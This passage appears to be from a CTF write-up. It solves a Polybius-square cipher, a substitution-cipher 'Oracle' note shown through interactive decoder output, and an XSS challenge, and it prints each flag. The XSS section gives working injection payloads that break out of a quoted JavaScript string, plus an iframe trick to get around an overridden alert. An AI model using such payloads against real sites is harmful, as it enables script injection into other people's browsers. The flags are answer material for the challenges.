    TOWHOMITMAYCONCERNIAMMRREAGANTHEREBELKNOWNASCYPHERASYOUMIGHTKNOWIHAVEBEENOUTSIDETHEMATRIXFORNINEYEARSIAMALSOAMEMBEROFMORPHEUSCREWANDCANHELPYOUFINDALLABOUTHISWHEREABOUTSIWOULDLIKETOFORGETABOUTTHISHORRIBLEWORLDANDBEABLETOGETBACKTOTHEMATRIXSOTHATICANENIOYTHERESTOFMYLIFEINTHISAMAZINGWORLDILONGTOENIOYAGAINTHERELAXINGANDLESSSTRESSFULLIFETHATTHEMATRIXPROVIDESANDALLTHOSELITTLELUXURIESTHATSIMPLYDONOTEXISTINTHEREALWORLDANYMOREIFYOUAREWILLINGTONEGOTIATEPLEASELEAVEANOTEWITHTHETIMEANDPLACETOHOLDSUCHAMEETINGINSIDEANENVELOPELABELLEDSCTFXTHEMATRIXCANBEMOREREALTHANTHISWORLDXONTHECROSSWAYBETWEENTHEWABASHANDERIEATSEVENOCLOCKINTHEAFTERNOONIAMANXIOUSLYWAITINGFORYOURPROMPTREPLYYOURSTRULYMRREAGAN

The polybius square is based on the keyword `STEAK` - very cipher-like. We can now decode the key:

    21, 33, 45, 13, 42, 32, 33, 33
    B   L   U   E   P   I   L   L

And here is the decoded plain text with whitespace and some punctuation inserted:

> TO WHOM IT MAY CONCERN,
> 
> I AM MR. REAGAN, THE REBEL KNOWN AS CYPHER. AS YOU MIGHT KNOW, I HAVE BEEN OUTSIDE THE MATRIX FOR NINE YEARS. I AM ALSO A MEMBER OF MORPHEUS' CREW AND CAN HELP YOU FIND ALL ABOUT HIS WHEREABOUTS. I WOULD LIKE TO FORGET ABOUT THIS HORRIBLE WORLD AND BE ABLE TO GET BACK TO THE MATRIX SO THAT I CAN ENIOY THE REST OF MY LIFE IN THIS AMAZING WORLD. I LONG TO ENIOY AGAIN THE RELAXING AND LESS STRESS FUL LIFE THAT THE MATRIX PROVIDES AND ALL THOSE LITTLE LUXURIES THAT SIMPLY DO NOT EXIST IN THE REAL WORLD ANYMORE. IF YOU ARE WILLING TO NEGOTIATE, PLEASE LEAVE A NOTE WITH THE TIME AND PLACE TO HOLD SUCH A MEETING INSIDE AN ENVELOPE LABELLED:
> 
> SCTFXTHEMATRIXCANBEMOREREALTHANTHISWORLDX
> 
> ON THE CROSSWAY BETWEEN THE WABASH AND ERIE AT SEVEN O'CLOCK IN THE AFTERNOON. I AM ANXIOUSLY WAITING FOR YOUR PROMPT REPLY.
> 
> YOURS TRULY,
> 
> MR. REAGAN

(Note `ENIOY` spelled without the `J`.)

`sctf{THEMATRIXCANBEMOREREALTHANTHISWORLD}`

## 51 Crypto / The oracle ##

**Description**

> The Oracle gave me this note. She mentioned it uses a substitution cipher. She also reminded me that there is no flag.

**Files given**

 - `oracle.tar.gz` - archive containing [`emsg.txt`](scripts/oracle/emsg.txt) looking like binary data

**Solution**

The file we have been given indeed is just some text encrypted using a substitution cipher. See [above](#485-crypto--the-note) for how to approach this. The difference for this one is that there are more distinct values, since we are not limited to a polybius square. As such, the most common character is most likely `0x20`, a space. Replacing the most common occurring character `0x68` with `0x20` and everything else with question marks, we get:

> ???? ????????????? ???? ??? ?? ???? ???? ??? ???????? ???? ??? ???? ?? ????? ????? ????? ??? ????????? ???? ???????? ?????????? ?????? ??????? ?? ????? ???????????? ??? ???? ????? ??????? ??????? ???????????????????????????????????????????????????????????????????? ?????????? ???????

Which seems fairly good, all of these could easily be English words. The only one that stands out is the 68 character one - the flag. We should exclude that for our frequency analysis.

I did try using `the` as a crib for this one, but this failed. As you'll soon see, the text doesn't actually include this word. So instead, we just use letter frequencies and deduction.

([interactive decoder script here](scripts/oracle/Solve.hx))

    --- Interactive decode mode ---
    Frequency chart:
       0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F
    0  0  0  0  0  0  0  0  2  0  1  1  0  1  0  0  0
    1  0  4  0  0  0  0  0 12  0  0  0  0  3  1  0  1
    2 12 14  0  0 18  3 14 14  0  9  2  2  9 18  4  5
    3  0  5  0  1  0  1  0  0  1  0 11 12 11 11  3  6
    4  0  0 10  0  0  0  0  0  0  0  0  0  0  0  0  0
    5  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    6  0  0  0  0  3  0  4  0 33  0  0  0  0  0  0  0
    7  0  0  0  0  0  0  0  1  3  8  0  0  4  1  0  4
    8  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    9  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    A  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    B  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    C  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    D  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    E  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    F  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0  0
    Current plain text:
        0 1 2 3 4 5 6 7 8 9 |  0  1  2  3  4  5  6  7  8  9
      0 ? ? ? ?   ? ? ? ? ? | 0C 2D 29 3A 68 1C 3A 21 26 21
     10 ? ? ? ? ? ? ? ?   ? | 3C 31 64 42 42 11 27 3D 68 3F
     20 ? ? ?   ? ? ?   ? ? | 21 24 24 68 2F 2D 3C 68 21 26
     30   ? ? ? ?   ? ? ? ? | 68 24 27 3E 2D 68 3F 21 3C 20
     40   ? ? ?   ? ? ? ? ? | 68 1C 20 2D 68 07 26 2D 66 42
     50 ? ? ?   ? ? ? ?   ? | 11 27 3D 68 3F 21 24 24 68 3B
     60 ? ?   ? ? ? ?   ? ? | 2D 2D 68 3F 20 29 3C 68 26 27
     70   ? ? ? ? ?   ? ? ? | 68 27 3C 20 2D 3A 68 20 3D 25
     80 ? ?   ? ? ? ? ?   ? | 29 26 68 29 24 21 3E 2D 68 20
     90 ? ?   ? ? ? ? ? ? ? | 29 3B 68 3B 2D 2D 26 66 42 11
    100 ? ?   ? ? ? ?   ? ? | 27 3D 68 3F 21 24 24 68 3C 3A
    110 ? ? ? ? ? ?   ? ? ? | 2D 3B 38 29 3B 3B 68 2A 27 3D
    120 ? ? ? ? ? ? ?   ? ? | 26 2C 29 3A 21 2D 3B 68 26 27
    130 ? ? ? ?   ? ? ? ? ? | 2A 27 2C 31 68 2C 3A 2D 29 25
    140 ? ?   ? ?   ? ? ? ? | 2D 2C 68 27 2E 68 2F 27 21 26
    150 ?   ? ? ? ? ? ? ? ? | 2F 68 3C 20 3A 27 3D 2F 20 66
    160 ? ? ? ?   ? ? ?   ? | 42 09 26 2C 68 31 27 3D 68 3F
    170 ? ? ?   ? ? ? ? ?   | 21 24 24 68 3E 21 3B 21 3C 68
    180 ? ? ? ? ? ? ?   ? ? | 78 79 66 42 0A 3D 3C 68 3A 2D
    190 ? ? ? ? ?   ? ? ? ? | 25 21 26 2C 64 68 3B 2B 3C 2E
    200 ? ? ? ? ? ? ? ? ? ? | 33 1F 79 24 24 17 1D 17 7D 7F
    210 ? ? ? ? ? ? ? ? ? ? | 79 24 24 17 2C 3D 17 7C 24 24
    220 ? ? ? ? ? ? ? ? ? ? | 17 78 2E 17 7F 20 79 3B 17 79
    230 ? ? ? ? ? ? ? ? ? ? | 2E 17 79 17 20 7C 2C 17 26 78
    240 ? ? ? ? ? ? ? ? ? ? | 7F 17 3B 7C 79 2C 17 7C 26 31
    250 ? ? ? ? ? ? ? ? ? ? | 7F 20 79 26 2F 77 35 42 42 11
    260 ? ? ? ?   ? ? ? ? ? | 27 3D 3A 3B 68 3C 3A 3D 24 31
    270 ? ? ? ? ?   ? ? ? ? | 64 42 1C 20 2D 68 07 3A 29 2B
    280 ? ? ?               | 24 2D 42                     
    Replace pos / char: char
    Replace (charcode): 0x2D
    With (charcode):    0x65
    (E is the most frequent letter)
    Current plain text:
        0 1 2 3 4 5 6 7 8 9 |  0  1  2  3  4  5  6  7  8  9
      0 ? e ? ?   ? ? ? ? ? | 0C 2D 29 3A 68 1C 3A 21 26 21
     10 ? ? ? ? ? ? ? ?   ? | 3C 31 64 42 42 11 27 3D 68 3F
     20 ? ? ?   ? e ?   ? ? | 21 24 24 68 2F 2D 3C 68 21 26
     30   ? ? ? e   ? ? ? ? | 68 24 27 3E 2D 68 3F 21 3C 20
     40   ? ? e   ? ? e ? ? | 68 1C 20 2D 68 07 26 2D 66 42
     50 ? ? ?   ? ? ? ?   ? | 11 27 3D 68 3F 21 24 24 68 3B
     60 e e   ? ? ? ?   ? ? | 2D 2D 68 3F 20 29 3C 68 26 27
     70   ? ? ? e ?   ? ? ? | 68 27 3C 20 2D 3A 68 20 3D 25
     80 ? ?   ? ? ? ? e   ? | 29 26 68 29 24 21 3E 2D 68 20
     90 ? ?   ? e e ? ? ? ? | 29 3B 68 3B 2D 2D 26 66 42 11
    100 ? ?   ? ? ? ?   ? ? | 27 3D 68 3F 21 24 24 68 3C 3A
    110 e ? ? ? ? ?   ? ? ? | 2D 3B 38 29 3B 3B 68 2A 27 3D
    120 ? ? ? ? ? e ?   ? ? | 26 2C 29 3A 21 2D 3B 68 26 27
    130 ? ? ? ?   ? ? e ? ? | 2A 27 2C 31 68 2C 3A 2D 29 25
    140 e ?   ? ?   ? ? ? ? | 2D 2C 68 27 2E 68 2F 27 21 26
    150 ?   ? ? ? ? ? ? ? ? | 2F 68 3C 20 3A 27 3D 2F 20 66
    160 ? ? ? ?   ? ? ?   ? | 42 09 26 2C 68 31 27 3D 68 3F
    170 ? ? ?   ? ? ? ? ?   | 21 24 24 68 3E 21 3B 21 3C 68
    180 ? ? ? ? ? ? ?   ? e | 78 79 66 42 0A 3D 3C 68 3A 2D
    190 ? ? ? ? ?   ? ? ? ? | 25 21 26 2C 64 68 3B 2B 3C 2E
    200 ? ? ? ? ? ? ? ? ? ? | 33 1F 79 24 24 17 1D 17 7D 7F
    210 ? ? ? ? ? ? ? ? ? ? | 79 24 24 17 2C 3D 17 7C 24 24
    220 ? ? ? ? ? ? ? ? ? ? | 17 78 2E 17 7F 20 79 3B 17 79
    230 ? ? ? ? ? ? ? ? ? ? | 2E 17 79 17 20 7C 2C 17 26 78
    240 ? ? ? ? ? ? ? ? ? ? | 7F 17 3B 7C 79 2C 17 7C 26 31
    250 ? ? ? ? ? ? ? ? ? ? | 7F 20 79 26 2F 77 35 42 42 11
    260 ? ? ? ?   ? ? ? ? ? | 27 3D 3A 3B 68 3C 3A 3D 24 31
    270 ? ? ? ? e   ? ? ? ? | 64 42 1C 20 2D 68 07 3A 29 2B
    280 ? e ?               | 24 2D 42                     
    Replace pos / char: pos
    Replace (pos):   196
    With (charcode): 0x73
    Replace pos / char: pos
    Replace (pos):   197
    With (charcode): 0x63
    Replace pos / char: pos
    Replace (pos):   198
    With (charcode): 0x74
    Replace pos / char: pos
    Replace (pos):   199
    With (charcode): 0x66
    ("sctf" at the beginning of the flag)
    ...
    ...
    ...
    Current plain text:
        0 1 2 3 4 5 6 7 8 9 |  0  1  2  3  4  5  6  7  8  9
      0 ? e ? r   ? r ? ? ? | 0C 2D 29 3A 68 1C 3A 21 26 21
     10 t ? ? ? ? ? o ?   w | 3C 31 64 42 42 11 27 3D 68 3F
     20 ? ? ?   ? e t   ? ? | 21 24 24 68 2F 2D 3C 68 21 26
     30   ? o ? e   w ? t h | 68 24 27 3E 2D 68 3F 21 3C 20
     40   ? h e   ? ? e ? ? | 68 1C 20 2D 68 07 26 2D 66 42
     50 ? o ?   w ? ? ?   s | 11 27 3D 68 3F 21 24 24 68 3B
     60 e e   w h ? t   ? o | 2D 2D 68 3F 20 29 3C 68 26 27
     70   o t h e r   h ? ? | 68 27 3C 20 2D 3A 68 20 3D 25
     80 ? ?   ? ? ? ? e   h | 29 26 68 29 24 21 3E 2D 68 20
     90 ? s   s e e ? ? ? ? | 29 3B 68 3B 2D 2D 26 66 42 11
    100 o ?   w ? ? ?   t r | 27 3D 68 3F 21 24 24 68 3C 3A
    110 e s ? ? s s   ? o ? | 2D 3B 38 29 3B 3B 68 2A 27 3D
    120 ? ? ? r ? e s   ? o | 26 2C 29 3A 21 2D 3B 68 26 27
    130 ? o ? ?   ? r e ? ? | 2A 27 2C 31 68 2C 3A 2D 29 25
    140 e ?   o f   ? o ? ? | 2D 2C 68 27 2E 68 2F 27 21 26
    150 ?   t h r o ? ? h ? | 2F 68 3C 20 3A 27 3D 2F 20 66
    160 ? ? ? ?   ? o ?   w | 42 09 26 2C 68 31 27 3D 68 3F
    170 ? ? ?   ? ? s ? t   | 21 24 24 68 3E 21 3B 21 3C 68
    180 ? ? ? ? ? ? t   r e | 78 79 66 42 0A 3D 3C 68 3A 2D
    190 ? ? ? ? ?   s c t f | 25 21 26 2C 64 68 3B 2B 3C 2E
    200 ? ? ? ? ? ? ? ? ? ? | 33 1F 79 24 24 17 1D 17 7D 7F
    210 ? ? ? ? ? ? ? ? ? ? | 79 24 24 17 2C 3D 17 7C 24 24
    220 ? ? f ? ? h ? s ? ? | 17 78 2E 17 7F 20 79 3B 17 79
    230 f ? ? ? h ? ? ? ? ? | 2E 17 79 17 20 7C 2C 17 26 78
    240 ? ? s ? ? ? ? ? ? ? | 7F 17 3B 7C 79 2C 17 7C 26 31
    250 ? h ? ? ? ? ? ? ? ? | 7F 20 79 26 2F 77 35 42 42 11
    260 o ? r s   t r ? ? ? | 27 3D 3A 3B 68 3C 3A 3D 24 31
    270 ? ? ? h e   ? r ? c | 64 42 1C 20 2D 68 07 3A 29 2B
    280 ? e ?               | 24 2D 42                     
    ...
    ...
    ...
    Current plain text:
        0 1 2 3 4 5 6 7 8 9 |  0  1  2  3  4  5  6  7  8  9
      0 D e a r   T r i n i | 0C 2D 29 3A 68 1C 3A 21 26 21
     10 t y , % % Y o u   w | 3C 31 64 42 42 11 27 3D 68 3F
     20 i l l   g e t   i n | 21 24 24 68 2F 2D 3C 68 21 26
     30   l o v e   w i t h | 68 24 27 3E 2D 68 3F 21 3C 20
     40   T h e   O n e % % | 68 1C 20 2D 68 07 26 2D 66 42
     50 Y o u   w i l l   s | 11 27 3D 68 3F 21 24 24 68 3B
     60 e e   w h a t   n o | 2D 2D 68 3F 20 29 3C 68 26 27
     70   o t h e r   h u m | 68 27 3C 20 2D 3A 68 20 3D 25
     80 a n   a l i v e   h | 29 26 68 29 24 21 3E 2D 68 20
     90 a s   s e e n % % Y | 29 3B 68 3B 2D 2D 26 66 42 11
    100 o u   w i l l   t r | 27 3D 68 3F 21 24 24 68 3C 3A
    110 e s p a s s   b o u | 2D 3B 38 29 3B 3B 68 2A 27 3D
    120 n d a r i e s   n o | 26 2C 29 3A 21 2D 3B 68 26 27
    130 b o d y   d r e a m | 2A 27 2C 31 68 2C 3A 2D 29 25
    140 e d   o f   g o i n | 2D 2C 68 27 2E 68 2F 27 21 26
    150 g   t h r o u g h % | 2F 68 3C 20 3A 27 3D 2F 20 66
    160 % A n d   y o u   w | 42 09 26 2C 68 31 27 3D 68 3F
    170 i l l   v i s i t   | 21 24 24 68 3E 21 3B 21 3C 68
    180 ? ? % % B u t   r e | 78 79 66 42 0A 3D 3C 68 3A 2D
    190 m i n d ,   s c t f | 25 21 26 2C 64 68 3B 2B 3C 2E
    200 ? ? ? l l ? ? ? ? ? | 33 1F 79 24 24 17 1D 17 7D 7F
    210 ? l l ? d u ? ? l l | 79 24 24 17 2C 3D 17 7C 24 24
    220 ? ? f ? ? h ? s ? ? | 17 78 2E 17 7F 20 79 3B 17 79
    230 f ? ? ? h ? d ? n ? | 2E 17 79 17 20 7C 2C 17 26 78
    240 ? ? s ? ? d ? ? n y | 7F 17 3B 7C 79 2C 17 7C 26 31
    250 ? h ? n g ? ? % % Y | 7F 20 79 26 2F 77 35 42 42 11
    260 o u r s   t r u l y | 27 3D 3A 3B 68 3C 3A 3D 24 31
    270 , % T h e   O r a c | 64 42 1C 20 2D 68 07 3A 29 2B
    280 l e %               | 24 2D 42

At this point we have everything pretty much everything from the readable text, but we need to figure out the flag. `?ny?h?ng` looks like `anything`, but we already used those letters. We also used the capital A and T, so we probably need to substitute with numbers. So, eventually:

    Current plain text:
        0 1 2 3 4 5 6 7 8 9 |  0  1  2  3  4  5  6  7  8  9
      0 D e a r   T r i n i | 0C 2D 29 3A 68 1C 3A 21 26 21
     10 t y , % % Y o u   w | 3C 31 64 42 42 11 27 3D 68 3F
     20 i l l   g e t   i n | 21 24 24 68 2F 2D 3C 68 21 26
     30   l o v e   w i t h | 68 24 27 3E 2D 68 3F 21 3C 20
     40   T h e   O n e % % | 68 1C 20 2D 68 07 26 2D 66 42
     50 Y o u   w i l l   s | 11 27 3D 68 3F 21 24 24 68 3B
     60 e e   w h a t   n o | 2D 2D 68 3F 20 29 3C 68 26 27
     70   o t h e r   h u m | 68 27 3C 20 2D 3A 68 20 3D 25
     80 a n   a l i v e   h | 29 26 68 29 24 21 3E 2D 68 20
     90 a s   s e e n % % Y | 29 3B 68 3B 2D 2D 26 66 42 11
    100 o u   w i l l   t r | 27 3D 68 3F 21 24 24 68 3C 3A
    110 e s p a s s   b o u | 2D 3B 38 29 3B 3B 68 2A 27 3D
    120 n d a r i e s   n o | 26 2C 29 3A 21 2D 3B 68 26 27
    130 b o d y   d r e a m | 2A 27 2C 31 68 2C 3A 2D 29 25
    140 e d   o f   g o i n | 2D 2C 68 27 2E 68 2F 27 21 26
    150 g   t h r o u g h % | 2F 68 3C 20 3A 27 3D 2F 20 66
    160 % A n d   y o u   w | 42 09 26 2C 68 31 27 3D 68 3F
    170 i l l   v i s i t   | 21 24 24 68 3E 21 3B 21 3C 68
    180 0 1 % % B u t   r e | 78 79 66 42 0A 3D 3C 68 3A 2D
    190 m i n d ,   s c t f | 25 21 26 2C 64 68 3B 2B 3C 2E
    200 { W 1 l l _ U _ 5 7 | 33 1F 79 24 24 17 1D 17 7D 7F
    210 1 l l _ d u _ 4 l l | 79 24 24 17 2C 3D 17 7C 24 24
    220 _ 0 f _ 7 h 1 s _ 1 | 17 78 2E 17 7F 20 79 3B 17 79
    230 f _ 1 _ h 4 d _ n 0 | 2E 17 79 17 20 7C 2C 17 26 78
    240 7 _ s 4 1 d _ 4 n y | 7F 17 3B 7C 79 2C 17 7C 26 31
    250 7 h 1 n g ? } % % Y | 7F 20 79 26 2F 77 35 42 42 11
    260 o u r s   t r u l y | 27 3D 3A 3B 68 3C 3A 3D 24 31
    270 , % T h e   O r a c | 64 42 1C 20 2D 68 07 3A 29 2B
    280 l e %               | 24 2D 42

Reformatted:

> Dear Trinity,
> 
> You will get in love with The One
> 
> You will see what no other human alive has seen
> 
> You will trespass boundaries nobody dreamed of going through
> 
> And you will visit 01
> 
> But remind, sctf{W1ll_U_571ll_du_4ll_0f_7h1s_1f_1_h4d_n07_s41d_4ny7h1ng?}
> 
> Yours truly,
> 
> The Oracle

`sctf{W1ll_U_571ll_du_4ll_0f_7h1s_1f_1_h4d_n07_s41d_4ny7h1ng?}`

## 51 Web / Excesss ##

**Description**

> This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?
> 
> Service: http://xss1.alieni.se:2999/

**No files given**

**Solution**

We are presented with a simple challenge:



If we follow the `?xss=hello` link, we can see this in the source code:

    <script>var x ='hello'; var y = `hello`; var z = "hello";</script>

The `xss` parameter gets injected into three differently-quoted Javascript strings verbatim. We can use any one of them since our characters are not filtered. So, choosing the first one, we first inject a `'` to escape the string, then a `;` to allow us to run arbitrary code, and after our code, we put `//` to comment out the rest (to stop the browser from complaining about syntax errors).

    ';alert(1);//
    URL:
    http://xss1.alieni.se:2999/?xss=%27;alert(1);//

But if we do this, we get a text prompt instead. There is another script included on the website, which overrides `window.alert`. Unfortunately, it seems `window` doesn't have a usable `prototype`, at least not in the current Chrome version. If we try `delete window.alert;`, the default `alert` function does not get restored.

Searching around for how to restore overridden functions, we find a simple technique: create an `<iframe>` and use its `window`'s `alert` function.

    var iframe = document.createElement("iframe");
    document.documentElement.appendChild(iframe);
    iframe.contentWindow.alert(1);
    URL (shorter version):
    http://xss1.alieni.se:2999/?xss=%27;document.documentElement.appendChild(f=document.createElement(%27iframe%27));f.contentWindow.alert(1);//

And if we submit this URL, we get the flag.

`sctf{cr0ss_s1te_n0scr1ptinG}`
